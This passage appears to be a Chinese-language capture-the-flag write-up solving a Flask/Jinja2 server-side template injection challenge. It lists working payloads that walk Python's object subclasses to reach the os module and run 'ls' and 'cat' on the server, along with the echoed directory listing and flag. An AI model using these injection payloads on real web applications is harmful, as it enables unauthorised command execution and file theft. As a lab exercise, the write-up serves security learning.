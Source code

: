 输入`{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os']}}`

回显：

	URL http://220.249.52.133:44238/<module 'os' from '/usr/lib/python2.7/os.pyc'> not found

三输入`{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
`查看目录

回显：

	URL http://220.249.52.133:44238/fl4g index.py not found

发现`fl4g`,那么此文件就极有可能藏有flag.

#### 查看flag

输入`{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat "fl4g"').read()}}
`

页面成功回显flag:

	URL http://220.249.52.133:44238/ctf{f22b6844-5169-4054-b2a0-d95b9361cb57} not found